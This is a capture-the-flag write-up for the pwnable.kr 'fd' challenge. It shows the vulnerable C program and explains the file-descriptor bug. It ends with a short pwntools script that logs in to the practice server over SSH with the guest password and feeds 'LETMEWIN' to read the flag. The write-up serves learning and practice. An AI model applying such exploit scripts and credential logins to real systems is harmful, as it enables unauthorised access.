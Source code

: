 # PWNABLE.KR - FD

 ### Bug overview
 ---
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char buf[32];

int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234; /* BUG */
	int len = 0;

    /* fd here is gonna be 0(input), which takes input and we can bypass the if check by inputing LETMEWIN string */
	len = read(fd, buf, 32);

	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}    
```

> If we look carefully, we can see a bug which gives us the ability to pick which file descriptor we would like to use. We need to use the correct value in `argv[1]` which is **4660** in order to use **FD 0(input)**, and then, when `read(0, buf, 32)` gonna be invoked we can input `LETMEWIN` string and bypass the if check block, then we can dump the flag. 

## Exploit 
---- 
```python

from pwn import *

server = ssh(user='fd', host='pwnable.kr', port=2222, password='guest')

def main():
    p = server.process(['./fd', '4660'])
        
    p.sendline('LETMEWIN')

    p.interactive()

if __name__ == '__main__':
    main()


```

